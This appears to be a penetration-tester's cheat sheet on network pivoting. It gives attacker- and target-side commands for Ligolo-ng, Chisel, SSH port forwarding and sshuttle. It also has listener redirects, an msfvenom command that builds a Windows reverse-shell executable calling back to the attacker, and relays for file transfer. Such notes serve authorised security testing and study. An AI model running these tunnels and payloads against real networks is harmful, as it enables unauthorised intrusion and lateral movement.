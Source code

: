 # 🔀 Pivoting

Refer [this](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5) for more techniques

Use my script from script Proxify.sh from [here](https://github.com/AdityaHebballe/Pentest-Scripts/)

## Ligolo-ng

* **Attacker:**

```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.201.0/24 dev ligolo
sudo ligolo-proxy -selfcert
```

Add the targets ip range as seen in `ifconfig` in ligolo

<figure><img src="../.gitbook/assets/Pivoting.png" alt=""><figcaption><p> For this add <code>172.16.201.0/24</code></p></figcaption></figure>

* **Target:**

```
./agent -connect 192.168.45.244:11601 -ignore-cert -retry
```

#### **To redirect:**

```
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444
```

* Creates a listener on the machine where we're running the agent at port 1234
* and redirects the traffic to port 4444 on our machine.
* You can use other ports, of course.

#### Reverse shell:

Example for the listener above:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=1234 -f exe -o reverse.exe
```

#### For file transfer:

Create another listener

```
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```

Now transfer files by using the ip of the machine that was tunneled from earlier and use port 1234. Create a python server on port 8000 in kali.

## Chisel

* Attacker:

```
chisel server --reverse --socks5 -p 8001
```

* Target:

```
./chisel client <attacker ip>:8001 R:socks 
```

Then add to `/etc/proxychains5.conf`

To forward a single port from target to our machine:

```
./chisel client 192.168.45.244:8001 R:8000:127.0.0.1:8000
```

## SSH Port Forwarding

Multiple ports can be forwarded

```
ssh -L <localhost ip>:localhost:<remote ip> ubuntu@10.129.202.64
```

Can be scanned like so :

```
nmap -v -sV -p1234 localhost
```

## SSH pivoting

```
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v 
```

## Sshuttle

```
sshuttle -r root@10.200.98.200 --ssh-cmd "ssh -i key.rsa" 10.200.98.0/24 -x 10.200.98.200 &
```
